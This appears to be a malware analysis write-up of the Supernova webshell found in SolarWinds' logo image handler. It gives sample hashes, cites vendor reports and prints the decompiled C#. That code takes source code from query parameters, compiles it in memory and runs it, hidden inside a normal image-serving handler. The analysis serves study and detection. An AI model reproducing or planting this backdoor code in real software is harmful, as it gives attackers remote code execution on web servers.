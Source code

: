 # Supernova Analysis

- [Supernova Analysis](#supernova-analysis)
  - [Sample HASH](#sample-hash)
- [Analysis](#analysis)
  - [ProcessRequest](#processrequest)
  - [DynamicRun](#dynamicrun)
- [Source](#source)

## Sample HASH 

    MD5     56ceb6d0011d87b6e4d7023d7ef85676
    SHA-1   75af292f34789a1c782ea36c7127bf6106f595e8
    SHA-256 c15abaf51e78ca56c0376522d699c978217bf041a3bd3c71d09193efa5717c71 
# Analysis

The webshell is only 92 lines and as two methods:
- ProcessRequest
- DynamicRun


## ProcessRequest

HTTP Query String Params:
- clazz
- method
- args
- codes

```C#
string str2;
if(buffer.Length < 2 || buffer[0] != byte.MaxValue || buffer[1] != (byte) 216){
    if(buffer.Length < 3 || buffer != "GIF"){
        if(buffer.Length < 8 || buffer[0] != (byte) 137 || (buffer[1] != 'P' || buffer[2] != 'N') || (buffer[3] != 'G' || buffer[4] != (byte) 13 || (buffer[5] != (byte) 10 || buffer[6] != (byte) 26)) || buffer[7] != (byte) 10)
            str2 = "image/jpeg";
        else
            str2 = "image/png";
    }else
        str2 = "image/gif";
}else
    str2 = "image/jpeg";
```

```C#
public void ProcessRequest(HttpContext context)
  {
    try
    {
      string codes = context.Request["codes"];
      string clazz = context.Request["clazz"];
      string method = context.Request["method"];
      string[] args = context.Request["args"].Split('\n');
      context.Response.ContentType = "text/plain";
      context.Response.Write(this.DynamicRun(codes, clazz, method, args));
    }
    catch (Exception ex)
    {
    }
    NameValueCollection queryString = HttpUtility.ParseQueryString(context.Request.Url.Query);
    try
    {
      string str1 = queryString["id"];
      string s;
      if (!(str1 == "SitelogoImage"))
      {
        if (!(str1 == "SiteNoclogoImage"))
          throw new ArgumentOutOfRangeException(queryString["id"]);
        s = WebSettingsDAL.get_NewNOCSiteLogo();
      }
      else
        s = WebSettingsDAL.get_NewSiteLogo();
      byte[] buffer = Convert.FromBase64String(s);
      if ((buffer == null || buffer.Length == 0) && File.Exists(HttpContext.Current.Server.MapPath("//NetPerfMon//images//NoLogo.gif")))
        buffer = File.ReadAllBytes(HttpContext.Current.Server.MapPath("//NetPerfMon//images//NoLogo.gif"));
      string str2 = buffer.Length < 2 || buffer[0] != byte.MaxValue || buffer[1] != (byte) 216 ? (buffer.Length < 3 || buffer[0] != (byte) 71 || (buffer[1] != (byte) 73 || buffer[2] != (byte) 70) ? (buffer.Length < 8 || buffer[0] != (byte) 137 || (buffer[1] != (byte) 80 || buffer[2] != (byte) 78) || (buffer[3] != (byte) 71 || buffer[4] != (byte) 13 || (buffer[5] != (byte) 10 || buffer[6] != (byte) 26)) || buffer[7] != (byte) 10 ? "image/jpeg" : "image/png") : "image/gif") : "image/jpeg";
      context.Response.OutputStream.Write(buffer, 0, buffer.Length);
      context.Response.ContentType = str2;
      context.Response.Cache.SetCacheability(HttpCacheability.Private);
      context.Response.StatusDescription = "OK";
      context.Response.StatusCode = 200;
      return;
    }
    catch (Exception ex)
    {
      LogoImageHandler._log.Error((object) "Unexpected error trying to provide logo image for the page.", ex);
    }
    context.Response.Cache.SetCacheability(HttpCacheability.NoCache);
    context.Response.StatusDescription = "NO IMAGE";
    context.Response.StatusCode = 500;
  }
```
## DynamicRun

This function will recv a C# code that will but compile and the run in the memory.

```C#
public string DynamicRun(string codes, string clazz, string method, string[] args)
{
  ICodeCompiler compiler = new CSharpCodeProvider().CreateCompiler();
  CompilerParameters options = new CompilerParameters();
  options.ReferencedAssemblies.Add("System.dll");
  options.ReferencedAssemblies.Add("System.ServiceModel.dll");
  options.ReferencedAssemblies.Add("System.Data.dll");
  options.ReferencedAssemblies.Add("System.Runtime.dll");
  options.GenerateExecutable = false;
  options.GenerateInMemory = true;
  string source = codes;
  CompilerResults compilerResults = compiler.CompileAssemblyFromSource(options, source);
  if (compilerResults.Errors.HasErrors)
  {
      string.Join(Environment.NewLine, compilerResults.Errors.Cast<CompilerError>().Select<CompilerError, string>((Func<CompilerError, string>) (err => err.ErrorText)));
      Console.WriteLine("error");
      return compilerResults.Errors.ToString();
  }
  object instance = compilerResults.CompiledAssembly.CreateInstance(clazz);
  return (string) instance.GetType().GetMethod(method).Invoke(instance, (object[]) args);
}
```

# Source

    https://labs.sentinelone.com/solarwinds-understanding-detecting-the-supernova-webshell-trojan/
    https://www.guidepointsecurity.com/supernova-solarwinds-net-webshell-analysis/
    https://unit42.paloaltonetworks.com/solarstorm-supernova/

    https://www.virustotal.com/gui/file/c15abaf51e78ca56c0376522d699c978217bf041a3bd3c71d09193efa5717c71/community
    https://app.any.run/tasks/40a1bf55-7b07-467f-8fbd-3442c62fb096/#
    https://www.joesandbox.com/analysis/333400/0/html
